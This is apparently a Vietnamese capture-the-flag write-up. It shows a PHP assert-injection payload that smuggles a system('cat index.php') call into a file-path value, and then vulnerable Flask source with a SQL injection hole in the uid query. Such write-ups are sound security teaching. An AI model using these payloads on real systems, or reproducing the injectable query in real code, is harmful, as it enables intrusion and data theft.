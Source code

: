 - Với payload của mình thì:

$file = "pages/a','NeVeR') === false and system('cat+index.php') and strpos('a.php";

Lúc này assert trở thành:

assert("strpos('pages/a','NeVeR') === false and system('cat+index.php') and strpos('a.php', '..') === false") or die("Detected hacking attempt!");

- Đó vậy là trở thành câu lệnh đúng


## Baby Address Note


```

from flask import Flask, session, render_template, request, Response, render_template_string, g
import functools
import sqlite3
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(120)


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/address.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
    return db


def query_db(query, args=(), one=False):
    with app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], str(value))
                   for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (rv[0] if rv else None) if one else rv


@app.before_first_request
def init_db():
    with app.open_resource('schema.sql', mode='r') as f:
        sql = f.read()
        get_db().cursor().executescript(sql)


@ app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@ app.route('/')
def index():
    uid = request.args.get('uid')
    if uid:
        try:
            sql = f"SELECT * FROM users WHERE uid='{uid}';"
            result = query_db(sql, one=True)
            if result:
                return render_template("welcome.jinja2", uid=uid, result=result)
```